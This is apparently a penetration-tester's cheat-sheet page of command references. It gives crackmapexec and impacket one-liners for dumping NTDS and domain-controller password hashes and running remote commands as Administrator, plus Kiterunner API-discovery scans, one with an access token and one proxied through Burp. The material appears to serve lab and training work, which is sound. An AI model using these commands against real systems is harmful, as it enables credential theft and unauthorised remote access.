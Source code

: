 ```yaml
---
layout: default
title: Command References & Examples
has_children: false
parent: Resources
nav_order: 5-2
---
```


# Windows
## crackmapexec
> SMB to obtain ntds file:
``` crackmapexec smb forest.example.local -u 'username' -p 'password' --ntds ```
> SMB to pass through a command:
``` crackmapexec smb 192.168.243.248 -u 'Administrator' -p 'Password' -x 'type C:\Users\Administrator\Desktop\proof.txt' ```

## impacket
### secretsdump module
``` impacket-secretsdump -just-dc htb.local/svc-account@10.10.10.161 ```
### wmiexec
``` impacket-wmiexec Administrator@$192.168.243.248 ```

# API Discovery
## Kiterunner
``` kr scan http://192.168.1.150:8888 -w /usr/share/wordlists/kiterunner/routes-large.kite ```
> scan without an authorization header
Options:
``` --fail-status-codes 400,401,404,403,501,502,426,411 ```
``` --delay 1s ```
Add an API Key:
``` kr scan http://10.0.2.4:8090 -w ~/usr/share/wordlists/kiterunner/routes-large.kite -H 'x-access-token: eyJH.eyJ1c.A1c' ```
> -H is 'headers' which passes the API key through in the x-access-token header
Proxy a replay through BurpSuite
```kr kb replay -w ~/usr/share//wordlists/kiterunner/routes-large.kite --proxy http://127.0.0.1:8080 "GET     200 [     10,    1,   1] http://10.0.2.4:8090/api/pictures/like 0cf684adc03406c50be603cfbc094373880973ae" ```


